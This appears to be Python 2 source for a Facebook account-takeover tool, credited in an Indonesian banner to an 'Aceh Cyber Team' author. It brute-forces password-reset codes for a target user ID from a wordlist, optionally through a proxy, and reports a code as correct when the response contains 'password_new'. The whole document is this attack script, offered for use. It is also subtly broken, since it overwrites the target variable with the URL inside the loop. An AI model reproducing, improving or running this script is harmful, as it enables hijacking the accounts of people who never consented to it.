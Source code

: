 # Rockmakeefbcrak
 import urllib2 ,sys ,re import os import ssl import time def cls(): linux = 'clear' windows = 'cls' os.system([linux,windows][os.name == 'nt']) cls() os.system(['','color D'][os.name == 'nt']) print ''' SELAMAT DATANG DI ACEH CYBER TEAM CODE: BY R15ky Ch4nn3L FACEBOOK RECOVERY PASSWORD ATTACKER _____ _ _ | ___|_ _ ___ ___| |__ ___ ___ | | __ | |_ / _` |/ __/ _ \ '_ \ / _ \ / _ \| |/ / | _| (_| | (_| __/ |_) | (_) | (_) | &lt; |_| \__,_|\___\___|_.__/ \___/ \___/|_|\_\ ''' if len(sys.argv) != 3: print "\n\n[#] Penulisan: python2 fb.py [TagetID] [listkode.txt] " sys.exit() target = sys.argv[1] wordlist = sys.argv[2] while True: print """ ============ Menu ============== 1- Reset Password Korban Dengan Proxy 2- Dengan Proxy saja """ choice=raw_input("Masuka Pilihan Mu: ") if choice=="1": try: word = open(wordlist, 'r').readlines() print "[+] Kode Nya Tersimpan \!/\n[+] Codes:",len(word) except("IOError"): print "[-] Hanya dalam Format .txt Ngentod :v" sys.exit(1); for w in word: w = w.rstrip() try: target = 'https://m.facebook.com/recover/password?u='+target+'&amp;n='+w get = urllib2.urlopen(target).read() except IOError: print " Gabisa Dimuat Halaman Nya :( " search = re.search('password_new', get) if search: print "[+] Kode Yang Ini "+w+" Bener anda beuntung^___^ " else: print "[+] Kode Yangini "+w+" Salah nyan >:( " else: print """ Selamat Datang Di Tools Saya Masukan Proxy:Port Anda Beb:* Penggunaan : [ip:port] """ ip_proxy=raw_input("Masukan Proxy Mu : ") print "[##] Proxy Terpasang : "+ip_proxy proxy = urllib2.ProxyHandler({'http': ip_proxy}) opener = urllib2.build_opener(proxy) urllib2.install_opener(opener) #ip = urllib2.urlopen('http://checkip.dyndns.org').read() #theIP = re.findall(r"\d{1,3}\.\d{1,3}\.\d{1,3}.\d{1,3}", ip) #print theIP #datum = response.read() #response.close() #print datum try: word = open(wordlist, 'r').readlines() print "[+] Kode Reset Tersimpan \!/\n[+] Kodd:",len(word) except("IOError"): print "[-] Yang Ini Gabisa Di Pake Anjirr !!" sys.exit(1); for w in word: w = w.rstrip() try: target = 'https://m.facebook.com/recover/password?u='+target+'&amp;n='+w get = urllib2.urlopen(target).read() except IOError: print " Yahh halaman ny gabisa dimuat :( " search = re.search('password_new', get) if search: print "[+] Kodenya yang ini "+w+" Bener Sayang :* " else: print "[+] Kode Yang Ini "+w+" Gabisa Dipakai Tod :v "
